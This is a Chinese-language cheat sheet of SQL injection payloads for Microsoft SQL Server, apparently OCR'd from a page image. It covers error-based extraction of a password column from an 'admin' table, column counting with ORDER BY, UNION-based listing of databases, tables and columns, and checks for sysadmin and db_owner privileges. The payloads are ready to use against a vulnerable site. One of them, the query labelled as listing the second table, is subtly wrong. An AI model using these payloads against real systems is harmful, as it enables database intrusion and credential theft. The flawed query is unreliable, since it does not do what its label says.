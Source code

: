 * **列出数据**
  ```sql
  id=1 and 1=(select pass from admin)
  ```
  
### 【union 联合查询】

* **表的列数**
  * id =1 order by 4 不断从1，2，3，4，5.....直到页面报错 ，得到表的列数

* **版本信息或取**
  * id=1 union select null,@@version,db_name(),null,null    查询版本和数据库名  **sqlserver在select后不能加数字，要加null，因为不知道该列是否为字符列，会报错**

* **列数数据库名**
  * 通过改变dbid数值列出所有数据库
  ```sql
  id=1 union select null,(select name from master.dbo.sysdatabases where dbid=1),null 
  ```
  
* **列出表名**
  * 查询其他数据库的表名
  ```sql
  id=1 union select null,(select top 1 name from [dbname]..sysobjects where xtype='u' and name not in(select top 0 name from [dbname]..sysobjects where xtype='u')),null,null
  ```
  
  *  列出第一个表名
  ```sql
  id=1 union select null,(select top 1 name from (select top 1 name from sysobjects where xtype=0x75 order by name) t order by name desc),null 
  ```
  
  * 列出第二个表名
  ```sql
  id=1 union select null,(select top 2 name from (select top 1 name from sysobjects where xtype=0x75 order by name) t order by name desc),null
  ```
  
* **列出列名(假设表名为admin)**
  * 改变object_id后的数字，来累出表中所有列名
  ```sql
  id=1 union select null,(select col_name(object_id('admin'),1)),null
  ```
  
### 【权限利用】

* **权限判断**
  *  判断是否是系统管理员
  ```sql
  id=1 and 1=(select is_srvrolemember('sysadmin'))  
  ```
  
  * 判断是否是库权限
  ```sql
  id=1 and 1=(select is_srvrolemember('db_owner')) 
  ```
  